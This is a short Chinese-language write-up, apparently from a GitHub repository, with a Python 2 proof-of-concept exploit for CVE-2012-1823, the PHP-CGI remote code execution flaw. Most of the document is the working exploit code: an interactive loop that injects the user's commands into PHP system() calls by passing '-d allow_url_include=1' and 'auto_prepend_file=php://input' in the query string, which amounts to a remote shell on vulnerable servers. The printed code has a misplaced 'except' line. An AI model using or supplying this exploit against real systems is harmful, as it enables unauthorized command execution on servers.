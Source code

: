 # CVE-2012-1823



---

这个PoC演示了CVE-2012-1823 – PHP-CGI的远程代码执行漏洞的利用,下面这个PoC的代码是通过一个简单的循环来获取PoC使用者频繁输入的内容,并且修改HttP头。Post提交请求。这个代码的原理也可以用于其他的示例。因为这段代码演示了如何通过Python创建自定义的HTTP头并且发起请求:
```
#!/usr/bin/python
import sys, urllib2    #导入需要的模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的url链接 "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:        # 循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  command=raw_input("~$ ")
  Host = URL.split('/')[2]      # 从URL解析主机名: 'http://<host>/' 并且赋值给Host <host>
  headers = {                   # 定义响应头部
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}
  data = "<?php system('"+command+"');die(); ?>"        # PHP运行的服务器
  req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

  try:                    # 使用Try/Except处理响应信息
    response = urllib2.urlopen(req)     # 发起请求
    for line in response.readlines():
      print line.strip()
    except Exception as e: print e
```

**结果演示**

![php_cgi][1]
[1]: img/0x14.png

